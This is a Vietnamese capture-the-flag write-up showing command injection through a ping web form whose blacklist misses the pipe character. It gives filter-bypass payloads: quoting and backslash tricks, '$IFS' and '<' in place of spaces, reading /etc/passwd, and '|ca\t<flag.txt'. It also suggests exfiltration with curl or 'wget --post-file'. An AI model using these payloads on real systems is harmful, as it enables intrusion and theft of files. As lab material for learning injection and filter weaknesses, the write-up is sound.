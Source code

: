 Web có chức năng ping đến 1 IP được nhập vào và hiện thị kết quả:

![image](https://user-images.githubusercontent.com/92881216/233627651-f7ec05fc-2c1e-4874-95db-ccb1b8d13cd2.png)

Khi nhập `127.0.0.1` :

![image](https://user-images.githubusercontent.com/92881216/233627887-af6925de-17ef-48ea-92c8-72011addb757.png)

Web có filter 1 số thứ:
- Các câu lệnh linux như: `ls`, `cat`, `bash`, `curl`,...
- Một số ký tự như: ` `, `(`, `)`, `&`, `;`,...

Tuy nhiên lại bỏ qua `|` => dễ bị lỗi command injection

Khai thác:

- Bypass các từ bị filter: 
```
w'h'o'am'i  => loại vì ' hay " đều bị filter
``` 

```
w\ho\am\i => ok
```

```
who$@ami  => ok
```

Kết quả: 

![image](https://user-images.githubusercontent.com/92881216/233629074-91e5134c-ed99-4cb8-8bec-d44dc98fa8b0.png)

![image](https://user-images.githubusercontent.com/92881216/233629126-475151d3-adf3-4b2f-ab51-0894cf26d932.png)

Tiếp theo là cần đọc file `flag.txt` nhưng ` `(space) bị filter. Cách bypass:
```
swissky@crashlab:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash
```
Hoặc có thể:
```
swissky@crashlab:~$ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```
Kết quả:

payload: `|ca\t<flag.txt`

![image](https://user-images.githubusercontent.com/92881216/233629502-e56c3b78-8944-43aa-9414-44a057da6bd3.png)

Ngoài ra có thể khai thác theo hướng khác như: `curl` đến 1 web chứa shell hoặc `wget --post-file` để chuyển nội dung file lên web khác


